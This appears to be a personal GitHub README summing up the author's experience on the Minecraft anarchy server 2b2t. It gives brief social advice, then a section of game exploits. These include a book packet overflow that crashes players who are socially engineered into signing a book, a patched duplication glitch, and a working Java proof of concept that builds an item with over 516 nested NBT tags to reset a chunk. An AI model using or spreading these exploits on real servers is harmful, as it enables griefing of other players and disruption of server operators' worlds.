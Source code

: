 # What-Ive-Learned
A sum of my 2b2t experience

# People
- Treat people as humans and be honest, that goes everywhere, but just keep it in mind.

- most people are nicer than you think. give em a chance.

- Dont ask for shit, when you dont ask, people are more trusting and you come across better

# Exploits
some stuff i found or learned abt

## Book overflow
Not possible to ban. Works because you can’t send a book data packet with more than 32676 bytes of data or else it crashes, so you fill it to the brink and if someone signs or writes in it it overflows, you can get someone to do that with a social engineering prompt like that one.

## Armor dupe \[PATCHED]
https://www.youtube.com/watch?v=DKIjBQjhEJ4&t=109s
made an autodupe while it worked lol

## NBT world reset. 
only works in creative but you can artificially create an item and if it has more than 512 *nested* nbt tags you can reset the chunk its in  

POC:
```java
private ItemStack generateNBTItem() {
        try {
            ItemStack itemStack = new ItemStack(Items.STICK);
            NbtCompound rootCompound = new NbtCompound();
            NbtCompound tempCompound = rootCompound;

            // Set depth limit just above the trigger limit
            for (int i = 0; i < 516; i++) {
                NbtCompound nextCompound = new NbtCompound();
                tempCompound.put("nested" + i, nextCompound);
                tempCompound = nextCompound;
            }

            // create a deep NBTTagList to trigger the exception
            NbtList deepTagList = new NbtList();
            deepTagList.add(new NbtCompound());
            tempCompound.put("triggerList", deepTagList);

            itemStack.setNbt(rootCompound);

            return itemStack;
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
    ```



